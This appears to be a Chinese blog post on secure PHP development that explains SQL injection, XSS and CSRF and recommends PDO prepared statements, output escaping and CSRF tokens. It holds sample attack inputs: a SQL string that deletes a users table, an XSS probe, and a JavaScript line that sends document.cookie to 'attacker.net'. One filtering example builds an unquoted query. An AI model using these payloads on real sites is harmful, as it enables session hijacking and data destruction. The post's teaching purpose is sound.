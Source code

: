 ```yaml
---
title: '浅谈PHP安全开发'
layout: post
tags:
  - 安全
  - php
category: 架构
---
```



PHP安全开发第一步，你需要使用一个优秀的PHP框架。一个优秀的框架不仅有着良好的工程结构，也往往在安全防御上有很多有用的类库、开关。今天介绍的PHP开发安全防护也是基于框架来说的。 PHP框架数不胜数，很多PHP开发人员都自己写过框架，但优秀且常用的PHP框架也就那么几个，如经典的Codeigniter、优雅的Laravel、执行速度最快的Yaf等等。下面涉及到框架方面的东西都是基于Laravel框架进行讨论。

<!--more-->

## SQL注入

SQL注入，就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令


```python
// 用户名过滤，输入的用户名必须为字母、数字及下划线的组合，且用户名长度为 8 到 20 个字符之间
if (preg_match("/^\w{8,20}$/", $_GET['username'], $matches))
{
 $result = mysql_query("SELECT * FROM users 
       WHERE username=$matches[0]");
}
 else
{
 echo "username 输入异常";
}

// 没有过滤特殊字符时，出现的SQL情况，设定$name 中插入了我们不需要的SQL语句
$name = "Qadir'; DELETE FROM users;";
mysql_query("SELECT * FROM users WHERE name='{$name}'");
```

我们没有对 $name 的变量进行过滤，$name 中插入了我们不需要的SQL语句，将删除 users 表中的所有数据。

### 防止SQL注入

> * 永远不要信任用户的输入。对用户的输入进行校验，可以通过正则表达式，或限制长度；对单引号和 双"-"进行转换等。
* 永远不要使用动态拼装sql，可以使用参数化的sql或者直接使用存储过程进行数据查询存取。
* 永远不要使用管理员权限的数据库连接，为每个应用使用单独的权限有限的数据库连接。
* 不要把机密信息直接存放，加密或者hash掉密码和敏感的信息。
* 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装
* sql注入的检测方法一般采取辅助软件或网站平台来检测，软件一般采用sql注入检测工具jsky，网站平台就有亿思网站安全平台检测工具。MDCSOFT SCAN等。采用MDCSOFT-IPS可以有效的防御SQL注入，XSS攻击等。

当我们使用传统的 mysql_connect 、mysql_query方法来连接查询数据库时，如果过滤不严，就有SQL注入风险，导致网站被攻击，失去控制。虽然可以用mysql_real_escape_string()/使用htmlspecialchars()函数过滤用户提交的值，但是也有缺陷。而使用PHP的PDO扩展的 prepare 方法，就可以避免sql injection 风险。


```python
$stmt = $dbh->prepare("select * from test where name = ?");
if ($stmt->execute(array("david"))) {
 while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
     print_r($row);
 }
}
```

### PDO防注入原理

使用PDO访问MySQL数据库时，真正的real prepared statements 默认情况下是不使用的。为了解决这个问题，你必须禁用 prepared statements的仿真效果。下面是使用PDO创建链接的例子：

```python
$dbh = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');
$dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);

```
setAttribute（）这一行是强制性的，它会告诉 PDO 禁用模拟预处理语句，并使用 real parepared statements 。这可以确保SQL语句和相应的值在传递到mysql服务器之前是不会被PHP解析的（禁止了所有可能的恶意SQL注入攻击）。虽然你可以配置文件中设置字符集的属性(charset=utf8)，但是需要格外注意的是，老版本的 PHP（ < 5.3.6）在DSN中是忽略字符参数的。

```python
$dbh = new PDO("mysql:host=localhost; dbname=demo", "user", "pass");
$dbh->setAttribute(PDO::ATTR_EMULATE_PREPARES, false); //禁用prepared statements的仿真效果
$dbh->exec("set names 'utf8'");
$sql="select * from test where name = ? and password = ?";
$stmt = $dbh->prepare($sql);
$exeres = $stmt->execute(array($testname, $pass));
if ($exeres) {
 while ($row = $stmt->fetch(PDO::FETCH_ASSOC)) {
     print_r($row);
 }
}
$dbh = null;
```

上面这段代码就可以防范sql注入。为什么呢？
当调用 prepare() 时，查询语句已经发送给了数据库服务器，此时只有占位符 ? 发送过去，没有用户提交的数据；当调用到 execute()时，用户提交过来的值才会传送给数据库，他们是分开传送的，两者独立的，由MySQL完成变量的转义处理，SQL攻击者没有一点机会。
但是我们需要注意的是以下几种情况，PDO并不能帮助你防范SQL注入

* 你不能让占位符 ? 代替一组值

```python
SELECT * FROM blog WHERE userid IN ( ? );
```

* 你不能让占位符代替数据表名或列名

```python
SELECT * FROM blog ORDER BY ?;
```
* 你不能让占位符 ? 代替任何其他SQL语法，如：

```python
SELECT EXTRACT( ? FROM datetime_column) AS variable_datetime_element FROM blog;
```

## XSS

XSS(Cross Site Scripting)，意为网站脚本攻击。跨站脚本主要被攻击者利用网站用户的cookies或者其他个人数据，一旦攻击者得到这些数据，那么他就可以伪装成此用户来登录网站，获得此用户的权限。

跨站脚本攻击的一般步骤:

1、攻击者以某种方式发送xss的http链接给目标用户
2、目标用户登录此网站，在登陆期间打开了攻击者发送的xss链接
3、网站执行了此xss攻击脚本
4、目标用户页面跳转到攻击者的网站，攻击者取得了目标用户的信息
5、攻击者使用目标用户的信息登录网站，完成攻击

![](http://www.stelin.me/assets/img/架构/20170602-103844.png)

用户浏览网页时发送错误，向服务器请求 URL，比如www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板中sorry,an error occurred，返回给用户。

	这个漏洞有一个显著的特征，应用程序没有进行任何过滤或净化措施，就非常容易受到攻击。www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面时，就会出现<script>alert(1)</script>，弹出一个消息框。

显然，攻击人员不会很傻的仅仅 alert 一些消息，在 IE 中，如果开启跨站点脚本检测可能无法弹出消息。通常 XSS 都会伴随着会话劫持，攻击者截获通过验证的用户的会话令牌。劫持用户的会话后，攻击者就可以访问该用户授权访问的所有数据和功能。

比如攻击者构造一个这样的 URL，message 信息如下


```javascript
var i = new Image;
i.src="http://attacker.net/"+document.cookie;
```

> 最简单的办法，过滤输入。对用户的输入，可以使用htmlspecialchars()等函数进行过滤转义，当然，一些文件上传等，也可能会造成此攻击，要限制上传文件的类型，比如只能传图片等。

## CSRF

CSRF（Cross-site request forgery），中文名称：跨站请求伪造，跨站攻击。

![](http://www.stelin.me/assets/img/架构/20170602-104625.png)

CSRF攻击理解：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。

“如果我不满足以上两个条件中的一个，我就不会受到CSRF的攻击”。是的，确实如此，但你不能保证以下情况不会发生：

1. 你不能保证你登录了一个网站后，不再打开一个tab页面并访问另外的网站。

2. 你不能保证你关闭浏览器了后，你本地的Cookie立刻过期，你上次的会话已经结束。（事实上，关闭浏览器不能结束一个会话，但大多数人都会错误的认为关闭浏览器就等于退出登录/结束会话了......）

3. 上图中所谓的攻击网站，可能是一个存在其他漏洞的可信任的经常被人访问的网站。



> 1. 使用token进行验证。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。（使用GET或POST方法加TOKEN）
2. 验证HTTP Referer字段。HTTP Referer字段，记录该HTTP请求的来源。如果来源是外部，那么就拒绝这个请求。（这个方法不安全，可以篡改HTTP Referer字段）
3. 一般框架，像ThinkPHP、laravel有表单令牌可以做防范。
4. 多个服务之前走内外调用




